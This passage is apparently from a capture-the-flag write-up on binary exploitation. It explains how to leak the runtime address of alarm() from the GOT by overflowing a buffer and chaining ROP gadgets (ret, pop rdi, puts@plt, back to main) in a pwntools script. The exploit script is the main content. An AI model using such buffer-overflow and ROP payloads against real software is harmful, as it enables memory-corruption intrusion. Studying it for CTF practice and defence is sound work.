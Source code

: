 This is great, this means that we can use the `puts()` function to display the `alarm()` function in the `GOT` through runtime.

We will need a ROP gadget (`POP_RDI`) to pop the `alarm_got` into `RDI` so we can call `puts()` from the `PLT`.

```python
def main():
    
    offset = 32
    length = 90
    r = conn()
    prompt = r.recvuntil(b'\n> ')                   
    print(prompt.decode('utf-8'))                   # Print out prompt that's given to us -- need to use utf-8 as it is sent as bytes
    # r.send(b'A'*100)
    payload = b''.join([                            # Use join() to join all elements in a list into one string
        b'A'*offset,
        #b'\x42\x42\x42\x42\x42\x42\x42\x42',       # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
        p64(ret),                                   # Stack-alignment issues requires a ret gadget here
        p64(pop_rdi),                               # ROP Gadget to pop alarm_got into the RDI register
        p64(alarm_got),                              
        p64(puts_plt),                              # Call puts() from PLT
        p64(main_function),                         # Jump back into main(), executing it twice -- needs to be packed into the binary's format (64-bit representation) this is because we received the numeric value from main_function
    ])
    
    payload += b'C'*(length -len(payload))          # A's at the top, B's for injection test, and C's for padding out the original length of data to send out

    r.send(payload)

    # good luck pwning :)

    r.interactive()
```

<mark style="color:yellow;">This will display the address or bytes of the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`alarm_got`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark>.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Printing our address or bytes of <code>alarm_got</code></p></figcaption></figure>

We can use this to determine where to go next.
